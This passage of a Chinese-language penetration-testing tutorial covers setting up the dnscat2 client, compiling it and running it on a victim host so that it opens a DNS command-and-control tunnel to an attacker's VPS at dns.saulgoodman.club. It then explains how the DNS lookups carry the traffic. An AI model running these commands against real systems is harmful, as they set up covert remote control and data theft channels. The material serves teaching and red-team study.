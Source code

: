 三：客户端下载安装dnscat2

客户端Windows下载的话是：https://downloads.skullsecurity.org/dnscat2/

下载地址：https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip（密码：password ）

Linux 直接下载并编译：

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2 /client/
make
```

四、测试是否能通信

服务端建立后，执行如下命令，测试客户端是否能与服务端通信：

```
./dnscat --dns domain=dns.saulgoodman.club
```

![](/assets/img/隐藏通信隧道基础知识/84.png)

这个时候服务端收到会话：

![](/assets/img/隐藏通信隧道基础知识/86.png)

复盘过程：目标受害者上的dnscat2指定了dns为攻击者的VPS，也就是（dns.saulgoodman.club），解析 dns.saulgoodman.club 会首先在本地dns缓存中查找，没有对应记录的时候，目标dns会从互联网上的跟dns服务器查询，dns根一看域名是 saulgoodman.club ，就会给到 saulgoodman.club 域名服务器，saulgoodman.club 域名服务器就会找 A 记录和 NS 记录。
